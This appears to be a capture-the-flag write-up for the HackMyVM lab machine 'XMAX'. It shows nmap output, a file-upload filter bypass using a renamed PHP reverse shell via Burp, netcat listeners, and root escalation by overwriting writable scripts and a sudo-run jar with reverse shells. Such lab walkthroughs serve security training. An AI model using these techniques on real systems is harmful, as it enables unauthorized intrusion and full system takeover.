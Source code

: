 ```yaml
---
title: XMAX - Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.63    08:00:27:b1:ae:10       PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a6:3e:0b:65:85:2c:0c:5e:47:14:a9:dd:aa:d4:8c:60 (ECDSA)
|_  256 99:72:b5:6e:1a:9e:70:b3:24:e0:59:98:a4:f9:d1:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.55
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-title: Did not follow redirect to http://christmas.hmv
MAC Address: 08:00:27:B1:AE:10 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  

TRACEROUTE

HOP RTT     ADDRESS

1   0.93 ms xmas (192.168.1.63)
```

## Add hosts

```shell
echo "192.168.1.63 christmas.hmv" >> /etc/hosts
```

## File upload

We can see there is a upload function which we can possibly use.

![[Upload_Function.png]]
As we can see, we can only upload pdf files.

With uploading "php-reverse-shell.pdf" first, we can then use burp to intercept the request and change it into "php-reverse-shell.php". 

![[Burp_upload.png]]

```shell
nc -lnvp 4444
```

## Privilege Escalation 

By using "linpeas.sh", we can discover some interesting files.


![[Linpeas_result.png]]

```shell
drwxr-xr-x  2 root root 4096 Nov 20 18:39 NiceOrNaughty
-rwxrwxrw- 1 root root 2029 Nov 20 18:39 nice_or_naughty.py
```

As we see that we have the permission to write into the file "nice_or_naughty.py".
Hence we will do is to create a python reverse shell.

```shell
nc -lnvp 1234
```

Then we are able to login in to user alabaster

## Privilege Escalation 

```shell
alabaster@xmas:~/PublishList$ sudo -l
sudo -l
Matching Defaults entries for alabaster on xmas:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User alabaster may run the following commands on xmas:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/java -jar
        /home/alabaster/PublishList/PublishList.jar
```


```shell
alabaster@xmas:~/PublishList$cat PublishList.java
cat PublishList.java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;

public class PublishList {

    public static void main(String[] args) {

        String sourceFile1 = "/home/alabaster/nice_list.txt";
        String sourceFile2 = "/home/alabaster/naughty_list.txt";
        String destinationFolder = "/home/santa/";

        try {
            copyFile(sourceFile1, destinationFolder);
            copyFile(sourceFile2, destinationFolder);
            System.out.println("Files copied successfully!");
        } catch (IOException e) {
            System.out.println("Failed to copy files!");
            e.printStackTrace();
        }
    }

    private static void copyFile(String sourceFile, String destinationFolder) throws IOException {
        int bytesRead;
        FileInputStream in = new FileInputStream(sourceFile);
        FileOutputStream out = new FileOutputStream(destinationFolder + new File(sourceFile).getName());

        byte[] buffer = new byte[4096];
        while ((bytesRead = in.read(buffer)) != -1) {
            out.write(buffer, 0, bytesRead);
        }

        in.close();
        out.close();
    }
}
```

We did not see any things that we can use for privilege escalations.

```shell
-rw-rw-r-- 1 alabaster alabaster 7504 Mar 23 05:31 PublishList.jar
```

But we see that we have to permission to write into the file.

Therefore, we will do is to generate a jar reverse shell via msfvenom and transfer it to the server

```shell
mv shell.jar /home/alabaster/PublishList/PublishList.jar
```

```shell
sudo java -jar /home/alabaster/PublishList/PublishList.jar
```

Then we are able to get root permission


